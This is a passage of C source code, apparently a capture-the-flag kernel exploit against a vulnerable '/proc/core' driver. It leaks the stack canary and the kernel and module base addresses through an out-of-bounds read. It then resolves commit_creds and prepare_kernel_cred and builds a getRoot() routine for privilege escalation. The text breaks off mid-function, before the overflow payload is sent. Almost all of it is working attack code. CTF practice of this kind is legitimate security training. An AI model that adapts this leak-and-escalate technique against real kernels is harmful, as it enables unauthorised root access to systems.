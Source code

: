 ```c
void core_write(int fd,char *ptr,int size)
{
	write(fd,ptr,size);
}

void core_copy(int fd, uint64_t size)
{
	ioctl(fd,0x6677889A,size);	
}
void (*c)(uint64_t);
uint64_t (*p)(uint64_t);

void getRoot()
{
	c(p(0));
}
int main()
{
	int i;
	int fd;
	char buf[0x40];
	uint64_t *buff=(uint64_t*)buf;
	uint64_t canary;
	uint64_t D_base;
	uint64_t K_base;
	uint64_t commit_creds;
	uint64_t prepare_kernel_cred;
	uint64_t *payload;

	save_stats();
	memset(buf,0,0x40);
	fd = open("/proc/core",O_RDWR);
	if(fd == -1)
	{
		printf("[!] open fails!");
		exit(-1);
	}
	setoff(fd,0x40);
	core_read(fd,buf);
/*
	for(int i=0;i<8;i++)
	{
		printf("buf[%d] => %p\n",i,buff[i]);
	}
*/
	canary = buff[0];
	D_base = buff[2] - 0x19b;
	K_base = buff[4] - 0x1dd6d1;

#define D(addr) (uint64_t)((D_base)+(addr))
#define K(addr) (uint64_t)((K_base)+(addr)-(0xFFFFFFFF81000000))

	commit_creds = K(0xffffffff8109c8e0);
	prepare_kernel_cred = K(0xffffffff8109cce0);
	
	c = commit_creds;
	p = prepare_kernel_cred;

	printf("[+] canary => 0x%llx\n",canary);
	printf("[+] D_base => 0x%llx\n",D_base);
	printf("[+] K_base => 0x%llx\n",K_base);
	printf("[+] c_cred => 0x%llx\n",commit_creds);
	printf("[+] p_cred => 0x%llx\n",prepare_kernel_cred);
```